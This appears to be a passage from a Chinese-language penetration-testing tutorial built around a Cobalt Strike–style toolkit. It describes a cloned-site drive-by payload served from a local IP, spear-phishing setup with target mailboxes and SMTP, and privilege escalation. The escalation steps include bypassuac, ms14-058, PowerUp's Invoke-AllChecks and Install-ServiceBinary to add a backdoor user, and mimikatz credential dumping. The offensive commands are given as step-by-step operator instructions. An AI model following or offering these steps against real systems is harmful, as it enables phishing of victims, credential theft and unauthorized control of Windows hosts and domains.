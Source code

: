 http://192.168.0.134:888/tsGoWgaV4P9NW

将上面的url地址放入到克隆网站的攻击网址里面 当受害人访问http://192.168.0.134:80/msf 就会加载http://192.168.0.134:888/tsGoWgaV4P9NW

# 七、鱼叉钓鱼攻击

1.准备要钓鱼的目标邮箱

2.模版文件

在准备账号密码的时候，账号和密码之间一定要使用两下`tab`键

3.smtp发送邮箱

# 八、权限提升

UAC 是微软在 Windows Vista 以后版本引入的一种安全机制，通过 UAC，应用程序和任务可始终在非管理员帐户的安全上下文中运行，除非管理员特别授予管理员级别的系统访问权限。UAC 可以阻止未经授权的应用程序自动进行安装，并防止无意中更改系统设置。

常用的权限提升方式

```
bypassuac
```

**使用ms14-058提权**

在里面使用cmd命令的时候，使用`shell whoami`

`whiami/groups`查看用户权限和用户组的信息

smb-pipe beacon 推荐内网环境下使用

**powershell提权**

需要收集自己的提权脚本进行使用

`powershell-import 导入脚本`

`powershell Invoke-AllChecks`开始扫描

然后`icacls 查看权限 F完全控制`一定要有完全的F权限才行

增加用户系统用户

`powershell Install-ServiceBinary -ServiceName Protect_2345Explorer -UserName rockyou123455 -Password 123456`

spawnas `.`(这是域)  然后使用账号密码，来获得一个新的beacon，然后就可以bypassuac获取超级权限

运行mimikatz

# 九、域内渗透（画好拓扑图）

## 1.枚举信任主机
